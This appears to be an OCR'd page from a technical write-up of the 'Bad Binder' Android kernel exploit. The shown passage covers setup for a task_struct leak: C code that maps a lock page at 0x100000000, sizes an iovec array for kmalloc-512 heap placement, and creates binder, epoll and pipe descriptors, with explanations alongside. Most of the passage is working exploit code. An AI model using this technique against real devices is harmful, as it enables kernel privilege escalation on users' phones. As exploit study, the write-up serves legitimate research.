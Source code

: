 
### Initializing for task_struct leak
```c
// Creates mmap with addr 0x1_0000_0000 and set m_lock_page
create_lock_page(); 
int pipe_fd[2] = {0};
char data_buffer[PAGE_SIZE] = {0};
// 
struct iovec iovecs[25] = {0};
int binder_fd = open_binder();
int epfd = create_epoll();

pipe(pipe_fd);
fcntl(pipe_fd[0], F_SETPIPE_SZ, PAGE_SIZE)

iovecs[10].iov_base = m_lock_page; // binder_thread->wait.lock
iovecs[10].iov_len = PAGE_SIZE; // binder_thread->wait.head.next
iovecs[11].iov_base = (void *)0x41414141; // binder_thread->wait.head.prev
iovecs[11].iov_len = PAGE_SIZE;

epoll_add(epfd, binder_fd);
```

#### create_lock_page()

```c
void BadBinder::create_lock_page()
{
    m_lock_page = mmap(
        (void *)0x100000000ul,
        PAGE_SIZE,
        PROT_READ | PROT_WRITE,
        MAP_PRIVATE | MAP_ANONYMOUS,
        -1,
        0);
}
```

Sets `BadBinder::m_lock_page` to `0x1_0000_0000` (Lower 32bit are all 0s). Reason being `binder_thread.wait.lock`'s lower 32bit needs to be all 0 or else cpu will just get locked.

```c
struct wait_queue_head {
    spinlock_t		lock;
    struct list_head	head;
};
```

#### Creating iovecs

```c
struct iovec iovecs[25] = {0};
```

Create `struct iovec iovecs[25]`. 25 * 16 `(sizeof(iovec))` = 400 bytes which means it will be allocated in `kmalloc-512`. There is reason why it is **400**. This will be explained later.

